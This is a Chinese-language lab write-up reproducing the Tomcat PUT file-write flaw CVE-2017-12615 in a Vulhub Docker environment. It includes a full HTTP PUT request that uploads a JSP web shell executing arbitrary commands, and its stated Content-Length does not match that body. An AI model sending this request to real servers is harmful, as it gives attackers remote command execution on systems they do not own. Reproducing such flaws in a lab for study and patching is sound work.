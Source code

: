 # Tomcat PUT方法任意写文件漏洞 CVE-2017-12615

## 漏洞描述

参考：

- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。

## 影响版本

```
Apache Tomcat 7.0.0-7.0.81（默认配置）

```

## 环境搭建

Vulhub启动Tomcat 8.5.19环境：

```
docker-compose build
docker-compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。

## 漏洞复现

直接发送以下数据包即可在Web根目录写入shell：

```
PUT /2.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<% if("poc".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b,0,a));
        }
        out.print("</pre>");
    }
%>
```

如下：

![image-20220302155053358](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021550397.png)
